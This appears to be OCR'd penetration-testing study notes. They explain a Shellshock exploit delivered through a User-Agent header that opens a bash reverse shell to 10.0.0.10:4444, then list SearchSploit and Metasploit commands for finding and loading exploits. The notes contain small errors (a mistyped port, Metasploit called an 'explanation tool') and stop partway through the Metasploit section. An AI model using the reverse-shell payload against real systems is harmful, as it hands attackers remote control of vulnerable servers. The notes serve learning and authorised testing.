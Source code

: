 User-Agent: () { :;}; exploits Shellshock by creating a function. The code after gets executed by the shell.
echo -e "\r\n$(/bin/bash -i >& /dev/tcp/10.0.0.10/4444 0>&1)":
/bin/bash -i >& /dev/tcp/10.0.0.10/444 means "Run a new Bash shell in interactive mode. Send std error and standard output to 10.0.0.10:4444 through a TCP connection.
0>&1 means "Read standard input (0) to this new shell through the TCP connection."



SearchSploit

SearchSploit allows you to search all of the exploits that you have in Kali Linux and even view their source code.


Search for exploits

# Search for apache exploits and view the first 10 findings.
searchsploit apache | head

View Source Code

# View the source code for the 29316.py exploit
searchsploit -x exploits/php/remote/29316.py

MetaSploit

MetaSploit is an automated explanation tool. In the professional pentesting world, is has a bit of a stigma because it allows users to run exploits without fully understanding what they are doing. Many Job Interviews and Pentesting Engagements will not allow the use of Metasploit. Before using Metasploit, it is important to understand what exploits you are running and what they do.


Start Metasploit

# Start the database
msfdb init

# Start msfconsole
msfconsole

Search Metasploit

Search Metasploit for a Hearbleed Exploit

msf > search heartbleed

Use an Exploit

Load an exploit that you discovered with Metasploit

msf > use /path/to/exploit
View an exploit's options
